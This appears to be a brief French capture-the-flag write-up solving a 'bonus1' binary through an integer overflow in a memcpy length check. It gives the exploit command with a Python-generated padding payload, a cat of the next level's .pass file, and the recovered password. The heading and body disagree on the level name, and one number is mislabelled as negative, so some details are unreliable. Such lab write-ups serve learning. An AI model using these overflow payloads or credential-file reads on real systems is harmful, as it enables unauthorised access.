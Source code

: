 



# bonus0


## description
- Il y a un exécutable **bonus1**.

## Résolution
Il y a un appel d'atoi pour convertir argv[1] en nombre.

       0x0804843d <+25>:    mov    %eax,0x3c(%esp)
       0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
Il y a une comparaison entre le nombre reçu qui doit être inferieur ou égal a **9** sinon le programme s'arrête(return).

Ensuite Il y a un appel a memcpy qui copier argv[2] dans un buffer. il va copier le nombre de argv[1] multiplier par 4.

On va exploiter l'**integer overflow**.

En premier arguments, on va mettre un nombre négatif(**2147483624**).
En deuxième argument, On va ajouter un padding de 40 bytes et on remplacer les 4 derniers bytes par la valeurs de la comparaison(**0x574f4c46**).


```
./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
